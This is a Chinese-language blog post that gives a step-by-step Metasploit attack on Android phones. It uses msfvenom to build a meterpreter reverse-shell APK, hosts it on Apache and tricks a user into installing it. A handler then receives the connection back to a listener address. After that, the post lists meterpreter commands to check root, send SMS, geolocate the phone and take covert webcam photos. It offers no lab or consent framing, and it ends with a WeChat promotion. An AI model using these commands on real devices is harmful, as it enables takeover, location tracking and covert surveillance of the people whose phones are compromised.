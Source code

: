 ```yaml
---
layout: post
category: binghe-code-hack
title: 使用Metasploit渗透Android系统
tagline: by 冰河
tag: [hack,binghe-code-hack]
excerpt: 使用Metasploit渗透Android系统
lock: need
---
```


# 使用Metasploit渗透Android系统

可以创建一个新的APK文件，也可以将攻击载荷注入到一个现有的APK文件来攻击Android平台，这里我们使用第一种方法。

## 创建APK文件 

```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.175.128 LPORT=4444 R > /var/www/html/test.apk
```

## 启动Apache服务

```bash
service apache2 start
```

## 诱导用户下载安装APK

这一步，我们诱导用户下载并安装这个APK文件。

## 实施攻击

```bash
msfconsole
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST 192.168.175.128
set LPORT 4444
exploit
```

到此，只要用户下载安装了我们的test.apk文件，我们就会获取到Meterpreter权限。

## 后渗透测试

在我们获取了目标Android手机的Meterpreter权限之后，我们可以执行如下命令进行后渗透攻击

**注意：如下命令都是在meterpreter命令行下执行的。**

## 查看手机是否root过

```bash
check_root
```

## 发送短信

```bash
send_sms -d 某个手机号码 -t "hello"
```

## 查看系统信息

```bash
sysinfo
```

## 对手机进行定位

```bash
wlan_geolocate
```

此命令会输出手机的经纬度，我们根据这个经纬度就可以知道手机的具体位置。

## 使用手机摄像头拍照

```bash
webcam_snap
```


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)